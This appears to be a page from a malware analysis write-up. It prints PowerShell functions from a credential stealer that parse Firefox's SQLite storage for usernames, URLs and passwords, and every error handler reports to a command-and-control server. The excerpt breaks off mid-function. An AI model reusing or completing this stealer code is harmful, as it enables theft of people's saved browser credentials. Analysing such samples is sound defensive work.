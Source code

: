 ```csharp

Function ParseVarint($ByteArray, [ref]$VarintSize)
{
  try
  { 
    [int32] $Val = 0;
    $x = 0;
    Do 
    {
      $Byte = $ByteArray[$x++];
      $Val = [math]::Floor($Val * [math]::Pow(2, 0x7)) -bor ($Byte -band 0x7F); # Decode the bytes of the array
    }
    While($x -lt 8 -and ($Byte -band 0x80))
    $VarintSize.Value = $x;
    Return $Val; #Get final value
  }
  catch{ SendStringToC2 "crederror=ERR:ParseVarint: $($_.Exception.Message)"; } 
}

[ref]$VarintSize = 0;
```

<h6>The next three functions check the correct extension (magic numbers of sqlite data) and define the cells of data. Each cell which contents the data is parsed and analyzed if this a username, URL, password to decode and add to list of dump data for firefox.</h6>

```csharp
Function ParseSQLite($Page)
{
  try
  {
    If ($Page[0] -ne 0x0D) { Return } #Wrong Magic Index
    $NumCells = __ToInt $Page[0x3..0x4]; # Check number of cells of data
    $CellAddrStart = 0x8; #Begin interval
    $CellAddrStop = $CellAddrStart + ($NumCells * 2) - 1; #End interval
    For ($x = $CellAddrStart; $x -le $CellAddrStop; $x += 2) #Parse all the cells
    {
        $CellAddr = __ToInt ($Page[$x .. ($x + 1)]); #Push the address to point
        ParseCellSQLite($Page[$CellAddr .. $Page.Length]); # Send the cell to decrypt
    }
  }
  catch{ SendStringToC2 "crederror=ERR:ParseSQLite: $($_.Exception.Message)"; } 
}

Function ParseCellSQLite($Cell)
{   
  try
  {
    $Offset = 0
    $PayloadLength = ParseVarint ($Cell[$Offset .. ($Offset + 4)]) $VarintSize
    $Offset += $VarintSize.Value
    $RowID = ParseVarint ($Cell[$Offset .. ($Offset + 4)]) $VarintSize 
    $Offset += $VarintSize.Value 
    If (($Offset + $Payload.Length) -le $Cell.Length){ ParsePayloadSQLite $Cell[$Offset .. ($Offset + $PayloadLength - 1)] } # Return the cell to decode with the dll
  }
  catch{ SendStringToC2 "crederror=ERR:ParseCellSQLite: $($_.Exception.Message)";} 
}

Function ParsePayloadSQLite($Payload)
{
  try
  {
```